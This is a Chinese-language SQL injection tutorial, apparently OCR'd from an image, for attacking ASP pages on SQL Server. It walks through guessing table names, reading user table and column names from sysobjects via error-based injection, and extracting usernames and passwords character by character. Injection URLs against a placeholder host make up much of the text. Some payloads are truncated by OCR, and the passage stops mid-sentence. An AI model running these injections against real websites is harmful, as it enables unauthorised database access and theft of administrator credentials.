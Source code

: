 ##### 猜解数据库中用户名表的名称
以下假设得到的数据库名是TestDB。

###### 猜解法：
此方法就是根据个人的经验猜表名，一般来说，user,users,member,members,userlist,memberlist,userinfo,manager,admin,adminuser,systemuser,systemusers,sysuser,sysusers,sysaccounts,systemaccounts等。并通过语句进行判断
　
```
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select count(*) from TestDB.dbo.表名)>0
```
 若表名存在，则abc.asp工作正常，否则异常。如此循环，直到猜到系统帐号表的名称。
　　
###### 读取法：
SQL-SERVER有一个存放系统核心信息的表sysobjects，有关一个库的所有表，视图等信息全部存放在此表中，而且此表可以通过WEB进行访问。

当xtype='U' and status>0代表是用户建立的表，发现并分析每一个用户建立的表及名称，便可以得到用户名表的名称，基本的实现方法是：

　　
```
①HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select top 1 name from TestD ... type='U' and status>0 )>0
```
得到第一个用户建立表的名称，并与整数进行比较，显然abc.asp工作异常，但在异常中却可以发现表的名称。假设发现的表名是xyz，则
　　
```
②HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select top 1 name from TestDB.dbo.sysobjects& ... tatus>0 and name not in('xyz'))>0
```
 可以得到第二个用户建立的表的名称，同理就可得到所有用建立的表的名称。
　　根据表的名称，一般可以认定那张表用户存放用户名及密码，以下假设此表名为Admin。

l. 猜解用户名字段及密码字段名称

admin表中一定有一个用户名字段，也一定有一个密码字段，只有得到此两个字段的名称，才有可能得到此两字段的内容。如何得到它们的名称呢，同样有以下两种方法。
- 猜解法：此方法就是根据个人的经验猜字段名，一般来说，用户名字段的名称常用：username,name,user,account等。而密码字段的名称常用：password,pass,pwd,passwd等。并通过语句进行判断
　　
```
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select count(字段名) from TestDB.dbo.admin)>0 “select count(字段名) from 表名”
```
语句得到表的行数，所以若字段名存在，则abc.asp工作正常，否则异常。如此循环，直到猜到两个字段的名称。
- 读取法：基本的实现方法是
　
```
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select ... me(object_id('admin'),1) from TestDB.dbo.sysobjects)>0
```
select top 1 col_name(object_id('admin'),1) from TestDB.dbo.sysobjects是从sysobjects得到已知表名的第一个字段名，当与整数进行比较，显然abc.asp工作异常，但在异常中却可以发现字段的名称。把col_name(object_id('admin'),1)中的1依次换成2,3,4,5，6…就可得到所有的字段名称。

l. 猜解用户名与密码

　　猜用户名与密码的内容最常用也是最有效的方法有：
- ASCII码逐字解码法:虽然这种方法速度较慢，但肯定是可行的。基本的思路是先猜出字段的长度，然后依次猜出每一位的值。猜用户名与猜密码的方法相同，以下以猜用户名为例说明其过程。

```
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select top&n ... nbsp;from TestDB.dbo.admin)=X(X=1,2，3,4，5，… n，username为用户名字段的名称，admin为表的名称)
```
若x为某一值i且abc.asp运行正常时，则i就是第一个用户名的长度。如：当输入
　　